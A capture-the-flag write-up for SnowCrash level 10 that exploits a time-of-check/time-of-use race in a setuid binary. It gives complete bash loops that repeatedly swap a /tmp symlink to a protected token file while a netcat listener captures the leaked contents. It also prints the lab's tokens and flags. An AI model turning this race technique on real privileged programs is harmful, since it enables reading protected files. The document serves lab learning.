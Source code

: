 # Level 10

- Once logged in, you will see a binary file `level10` and the `token` file.

```
???$ ssh level10@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level10@localhost's password:
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ ls -ls
total 16
12 -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
 4 -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Yes, it looks same is the previous line, but let's check what's the differernce.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$
```
there is a token, but the access is only granted for `flag10` user.

```
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

and check the binary
```
level10@SnowCrash:~$ strings level10
[...]
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
[...]
```

let's check how this works
```
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff784, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                  = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)    = 31
+++ exited (status 31) +++
level10@SnowCrash:~$
```
Here, the `access` function is called, to check the permission of the file.

on manual of access `man 2 access`, the following is presented
```
ACCESS(2)                    Linux Programmer's Manual                   ACCESS(2)
...
NOTES
       Warning: Using access() to check if a user is authorized to,  for  example,
       open a file before actually doing so using open(2) creates a security hole,
       because the user might exploit the short time interval between checking and
       opening the file to manipulate it.  For this reason, the use of this system
       call should be avoided.  (In the example just described, a  safer  alterna-
       tive  would be to temporarily switch the process's effective user ID to the
       real ID and then call open(2).)
...
```
[`TOCTOU race`](https://stackoverflow.com/questions/7925177/access-security-hole) is mentioned about this security hole.

In order to capture the `smaall gap` in between `access()` and `open()` the following will be prompted.

First, run `netcat` on port `6969`

```
level10@SnowCrash:~$ nc -lk 6969
```

and creating and run script that symlinks with the `token` file,

```
#!/bin/bash

while true; do
        touch /tmp/symlink
        rm -f /tmp/symlink
        ln -s /home/user/level10/token /tmp/symlink
        rm -f /tmp/symlink
done
```

and execute the `level10` binary with symlink created

```
#!/bin/bash

while true; do
	./level10 /tmp/symlink 127.0.0.1;
done
```

and listen on the port `6969` for capturing any incoming data

```
level10@SnowCrash:~$ nc -lk 6969 &
[...]
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
[...]
```
with the flag achieved, let's try logging into `flag11`

```
level10@SnowCrash:~$ su flag11
Password:
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
flag11@SnowCrash:~$
```
